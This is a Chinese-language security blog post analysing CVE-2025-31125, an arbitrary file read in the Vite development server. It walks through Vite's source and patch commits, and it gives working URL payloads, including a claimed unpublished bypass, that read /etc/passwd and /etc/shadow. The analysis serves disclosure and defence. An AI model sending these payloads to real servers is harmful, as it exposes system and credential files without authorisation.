




# Vite开发服务器任意文件读取漏洞分析复现（CVE-2025-31125）-先知社区

> **来源**: https://xz.aliyun.com/news/17655  
> **文章ID**: 17655

---

> **Affected versions**
>
> * 6.2.0 <= Vite <= 6.2.3
> * 6.1.0 <= Vite <= 6.1.2
> * 6.0.0 <= Vite <= 6.0.12
> * 5.0.0 <= Vite <= 5.4.15
> * Vite <= 4.5.10

## 前言

这个漏洞其实是CVE-2025-30208的升级版

这里直接先给出公开的POC：`/@fs/etc/passwd?import&?inline=1.wasm?init`

我们看看6.2.2，6.2.3，6.2.4，6.2.5版本的packages/vite/src/node/server/middlewares/transform.ts文件的commit先吧。

先看看修补6.2.2的commit：此处是修补了CVE-2025-30208，但是CVE-2025-31125仍然是存在的。

<https://github.com/vitejs/vite/commit/f234b5744d8b74c95535a7b82cc88ed2144263c1#diff-6d94d6934079a4f09596acc9d3f3d38ea426c6f8e98cd766567335d42679ca7cL43-R188>



此处的修补其实主要在于去除末尾多的`?`和`&`。

然后我们再看看修补6.2.3的commit

<https://github.com/vitejs/vite/commit/59673137c45ac2bcfad1170d954347c1a17ab949>



此处的修补主要是对于inlineRE的修补。也就是对上面那个公开POC的修补！但是未公开的POC还是可以使用的！！！！

再看看修补6.2.4的commit（下面分析的时候再说），修补了未公开的POC。。。

<https://github.com/vitejs/vite/commit/62d7e81ee189d65899bb65f3263ddbd85247b647#diff-6d94d6934079a4f09596acc9d3f3d38ea426c6f8e98cd766567335d42679ca7c>

## 漏洞分析

### 公开POC

`/@fs/etc/passwd?import&?inline=1.wasm?init`

看看vite6.2.4

先看看最末尾的文件读取处：



查看函数调用

```
export async function fileToUrl(
  pluginContext: PluginContext,
  id: string,
): Promise<string> {
  const { environment } = pluginContext
  if (environment.config.command === 'serve') {
    return fileToDevUrl(environment, id)
  } else {
    return fileToBuiltUrl(pluginContext, id)
  }
}
```

继续查看函数调用，全局搜发现load函数，其实这里也可以通过6.2.5的commit来发现6.2.4删除了`!id.endsWith('.wasm?init')`，换成了`!wasmInitRE.test(id)`。

```
async load(id) {
      if (id === wasmHelperId) {
        return `export default ${wasmHelperCode}`
      }

      if (!id.endsWith('.wasm?init')) {
        return
      }

      const url = await fileToUrl(this, id)

      return `
import initWasm from "${wasmHelperId}"
export default opts => initWasm(opts, ${JSON.stringify(url)})
`
    },
```

上述其实是满足id的末尾是`.wasm?init`的话，就进入fileToUrl。也就是结尾需要满足.wasm?init。

进入fileToUrl后会默认进入fileToDevUrl，就是在这里读取了file。

```
export async function fileToDevUrl(
  environment: Environment,
  id: string,
  skipBase = false,
): Promise<string> {
  const config = environment.getTopLevelConfig()
  const publicFile = checkPublicFile(id, config)

  // If has inline query, unconditionally inline the asset
  if (inlineRE.test(id)) {
    const file = publicFile || cleanUrl(id)
    const content = await fsp.readFile(file)
    return assetToDataURL(environment, file, content)
  }

  // If is svg and it's inlined in build, also inline it in dev to match
  // the behaviour in build due to quote handling differences.
  if (svgExtRE.test(id)) {
    const file = publicFile || cleanUrl(id)
    const content = await fsp.readFile(file)
    if (shouldInline(environment, file, id, content, undefined, undefined)) {
      return assetToDataURL(environment, file, content)
    }
  }

  let rtn: string
  if (publicFile) {
    // in public dir during dev, keep the url as-is
    rtn = id
  } else if (id.startsWith(withTrailingSlash(config.root))) {
    // in project root, infer short public path
    rtn = '/' + path.posix.relative(config.root, id)
  } else {
    // outside of project root, use absolute fs path
    // (this is special handled by the serve static middleware
    rtn = path.posix.join(FS_PREFIX, id)
  }
  if (skipBase) {
    return rtn
  }
  const base = joinUrlSegments(config.server.origin ?? '', config.decodedBase)
  return joinUrlSegments(base, removeLeadingSlash(rtn))
}
```

对id进行cleanUrl，也就是一次清洗（**匹配从** `?` **或** `#` **开始直到字符串末尾的所有字符**），如/etc/passwd?&raw??会被替换为/etc/passwd。cleanUrl后读取文件！

```
const postfixRE = /[?#].*$/
export function cleanUrl(url: string): string {
  return url.replace(postfixRE, '')
}
```

我们用poc走一遍代码（vite6.2.4）。`/@fs/etc/passwd?import&?inline=1.wasm?init`



这里经过了removeTimestampQuery函数，但是我们最后不是问号所以没事

接下来是：

```
      const urlWithoutTrailingQuerySeparators = url.replace(
        trailingQuerySeparatorsRE,
        '',
      )
```

url还是`/@fs/etc/passwd?import&?inline=1.wasm?init`

然后我们要进入一个if语句：

```
const inlineRE = /[?&]inline\b/

if (
        (rawRE.test(urlWithoutTrailingQuerySeparators) ||
          urlRE.test(urlWithoutTrailingQuerySeparators) ||
          inlineRE.test(urlWithoutTrailingQuerySeparators)) &&
        !ensureServingAccess(
          urlWithoutTrailingQuerySeparators,
          server,
          res,
          next,
        )
      ) 
```

我们要让前三个test都为false才行！

但是此处inlineRE.test会匹配到！因此vite6.2.4 修补了这个漏洞（CVE-2025-31125）！

接下来我们跟一遍vite6.2.3：

我们从if语句处开始分析，此时url为`/@fs/etc/passwd?import&?inline=1.wasm?init`

```
if (
        (rawRE.test(urlWithoutTrailingQuerySeparators) ||
          urlRE.test(urlWithoutTrailingQuerySeparators)) &&
        !ensureServingAccess(
          urlWithoutTrailingQuerySeparators,
          server,
          res,
          next,
        )
      ) {
        return
      }
```

这里就匹配不到了，我们就可以往下走了。

进入下一个if语句：

```
if (
        req.headers['sec-fetch-dest'] === 'script' ||
        isJSRequest(url) ||
        isImportRequest(url) ||
        isCSSRequest(url) ||
        isHTMLProxy(url)
      ) {
```

```
const importQueryRE = /(\?|&)import=?(?:&|$)/
```

匹配到了，进入if语句。进行一次removeImportQuery(url)。

```
const importQueryRE = /(\?|&)import=?(?:&|$)/
const trailingSeparatorRE = /[?&]$/

export function removeImportQuery(url: string): string {
  return url.replace(importQueryRE, '$1').replace(trailingSeparatorRE, '')
}
```

经过removeImportQuery后url就变成了`/@fs/etc/passwd??inline=1.wasm?init`

```
const url = "/@fs/etc/passwd?import&?inline=1.wasm?init";
const importQueryRE = /(\?|&)import=?(?:&|$)/;
const newUrl = url.replace(importQueryRE, '$1');

console.log(newUrl); 

//   /@fs/etc/passwd??inline=1.wasm?init
```

接下来进入transformRequest

```
const result = await transformRequest(environment, url, {
          html: req.headers.accept?.includes('text/html'),
        })
```

没有对url进行什么操作，直接跟进doTransform

```
const request = doTransform(environment, url, options, timestamp)
```

```
async function doTransform(
  environment: DevEnvironment,
  url: string,
  options: TransformOptions,
  timestamp: number,
) {
  url = removeTimestampQuery(url)

  const { pluginContainer } = environment

  let module = await environment.moduleGraph.getModuleByUrl(url)
  if (module) {
    // try use cache from url
    const cached = await getCachedTransformResult(
      environment,
      url,
      module,
      timestamp,
    )
    if (cached) return cached
  }

  const resolved = module
    ? undefined
    : ((await pluginContainer.resolveId(url, undefined)) ?? undefined)

  // resolve
  const id = module?.id ?? resolved?.id ?? url

  module ??= environment.moduleGraph.getModuleById(id)
  if (module) {
    // if a different url maps to an existing loaded id,  make sure we relate this url to the id
    await environment.moduleGraph._ensureEntryFromUrl(url, undefined, resolved)
    // try use cache from id
    const cached = await getCachedTransformResult(
      environment,
      url,
      module,
      timestamp,
    )
    if (cached) return cached
  }

  const result = loadAndTransform(
    environment,
    id,
    url,
    options,
    timestamp,
    module,
    resolved,
  )

  const { depsOptimizer } = environment
  if (!depsOptimizer?.isOptimizedDepFile(id)) {
    environment._registerRequestProcessing(id, () => result)
  }

  return result
}
```

首先对url进行一次removeTimestampQuery，但是没什么效果。

```
const result = loadAndTransform(
    environment,
    id,
    url,
    options,
    timestamp,
    module,
    resolved,
  )
```

跟进loadAndTransform后，继续跟进

```
const loadResult = await pluginContainer.load(id)
```

```
async load(id) {
      if (id === wasmHelperId) {
        return `export default ${wasmHelperCode}`
      }

      if (!id.endsWith('.wasm?init')) {
        return
      }

      const url = await fileToUrl(this, id)

      return `
import initWasm from "${wasmHelperId}"
export default opts => initWasm(opts, ${JSON.stringify(url)})
`
    },
```

直接进入fileToUrl！然后进入fileToDevUrl。

进入if语句：`/@fs/etc/passwd??inline=1.wasm?init`

```
export const inlineRE = /[?&]inline\b/
const svgExtRE = /\.svg(?:$|\?)/
if (inlineRE.test(id)) {
    const file = publicFile || cleanUrl(id)
    const content = await fsp.readFile(file)
    return assetToDataURL(environment, file, content)
}
```

进入if语句后进行一次Url的清洗

```
const postfixRE = /[?#].*$/
export function cleanUrl(url: string): string {
  return url.replace(postfixRE, '')
}
```

file也就等于/@fs/etc/passwd了！然后readFile后赋值为content。最后进行回显！

### 未公开POC

看一下最新的commit，发现多了对于svg的判断。这个poc是可以打6.2.4的。

我们先看看fileToDevUrl

```
const svgExtRE = /\.svg(?:$|\?)/

export async function fileToDevUrl(
  environment: Environment,
  id: string,
  skipBase = false,
): Promise<string> {
  const config = environment.getTopLevelConfig()
  const publicFile = checkPublicFile(id, config)

  // If has inline query, unconditionally inline the asset
  if (inlineRE.test(id)) {
    const file = publicFile || cleanUrl(id)
    const content = await fsp.readFile(file)
    return assetToDataURL(environment, file, content)
  }

  // If is svg and it's inlined in build, also inline it in dev to match
  // the behaviour in build due to quote handling differences.
  if (svgExtRE.test(id)) {
    const file = publicFile || cleanUrl(id)
    const content = await fsp.readFile(file)
    if (shouldInline(environment, file, id, content, undefined, undefined)) {
      return assetToDataURL(environment, file, content)
    }
  }
```

发现其中不知有inlineRE，还有一个svgExtRE，我们可以通过svg来进行文件读取。

那么就有这样的poc：

```
/@fs/etc/passwd?import&?meteorkai.svg?.wasm?init

/@fs/etc/shadow?meteorkai.svg?.wasm?init  //这里没有import是因为读取的文件没有后缀，isJSRequest为true
```

我们跟一遍vite6.2.4先。

由于最末尾没有`?`之类的，我们直接进入下面的if语句：

```
if (
        (rawRE.test(urlWithoutTrailingQuerySeparators) ||
          urlRE.test(urlWithoutTrailingQuerySeparators) ||
          inlineRE.test(urlWithoutTrailingQuerySeparators)) &&
        !ensureServingAccess(
          urlWithoutTrailingQuerySeparators,
          server,
          res,
          next,
        )
      )
```

要求rawRE，urlRE，inlineRE均为false才行，自然是可以的。

那么接下来进入下面的if语句：

```
if (
        req.headers['sec-fetch-dest'] === 'script' ||
        isJSRequest(url) ||
        isImportRequest(url) ||
        isCSSRequest(url) ||
        isHTMLProxy(url)
      )
```

isImportRequest为true，直接进入if语句。

```
url = removeImportQuery(url)
```

```
const importQueryRE = /(\?|&)import=?(?:&|$)/
const trailingSeparatorRE = /[?&]$/

export function removeImportQuery(url: string): string {
  return url.replace(importQueryRE, '$1').replace(trailingSeparatorRE, '')
}
```

经过removeImportQuery后url变成了`/@fs/etc/passwd??meteorkai.svg?.wasm?init`

然后进入transformRequest

```
const result = await transformRequest(environment, url, {
          html: req.headers.accept?.includes('text/html'),
        })
```

接着跟进doTransform

```
const request = doTransform(environment, url, options, timestamp)
```

跟进loadAndTransform

```
const result = loadAndTransform(
    environment,
    id,
    url,
    options,
    timestamp,
    module,
    resolved,
  )
```

然后进入load函数

```
async load(id) {
      if (id === wasmHelperId) {
        return `export default ${wasmHelperCode}`
      }

      if (!id.endsWith('.wasm?init')) {
        return
      }

      const url = await fileToUrl(this, id)

      return `
import initWasm from "${wasmHelperId}"
export default opts => initWasm(opts, ${JSON.stringify(url)})
`
    },
```

进入fileToUrl。再跟进fileToDevUrl。

```
export async function fileToDevUrl(
  environment: Environment,
  id: string,
  skipBase = false,
): Promise<string> {
  const config = environment.getTopLevelConfig()
  const publicFile = checkPublicFile(id, config)

  // If has inline query, unconditionally inline the asset
  if (inlineRE.test(id)) {
    const file = publicFile || cleanUrl(id)
    const content = await fsp.readFile(file)
    return assetToDataURL(environment, file, content)
  }

  // If is svg and it's inlined in build, also inline it in dev to match
  // the behaviour in build due to quote handling differences.
  if (svgExtRE.test(id)) {
    const file = publicFile || cleanUrl(id)
    const content = await fsp.readFile(file)
    if (shouldInline(environment, file, id, content, undefined, undefined)) {
      return assetToDataURL(environment, file, content)
    }
  }

  let rtn: string
  if (publicFile) {
    // in public dir during dev, keep the url as-is
    rtn = id
  } else if (id.startsWith(withTrailingSlash(config.root))) {
    // in project root, infer short public path
    rtn = '/' + path.posix.relative(config.root, id)
  } else {
    // outside of project root, use absolute fs path
    // (this is special handled by the serve static middleware
    rtn = path.posix.join(FS_PREFIX, id)
  }
  if (skipBase) {
    return rtn
  }
  const base = joinUrlSegments(config.server.origin ?? '', config.decodedBase)
  return joinUrlSegments(base, removeLeadingSlash(rtn))
}
```

这里inlineRE.test(id)是false的。

```
if (inlineRE.test(id)) {
    const file = publicFile || cleanUrl(id)
    const content = await fsp.readFile(file)
    return assetToDataURL(environment, file, content)
  }
```

但是svgExtRE.test(id)为true。

然后就是清洗Url，file为`/@fs/etc/passwd`，可以读取任意文件。

接下来我们看看vite6.2.5是如何进行防御的：

`/@fs/etc/passwd?import&?meteorkai.svg?.wasm?init`

```
const urlRE = /[?&]url\b/
const rawRE = /[?&]raw\b/
const inlineRE = /[?&]inline\b/
const svgRE = /\.svg\b/

function deniedServingAccessForTransform(
  url: string,
  server: ViteDevServer,
  res: ServerResponse,
  next: Connect.NextFunction,
) {
  return (
    (rawRE.test(url) ||
      urlRE.test(url) ||
      inlineRE.test(url) ||
      svgRE.test(url)) &&
    !ensureServingAccess(url, server, res, next)
  )
}
```

svgRE.test(url))为true了。。。直接防下！
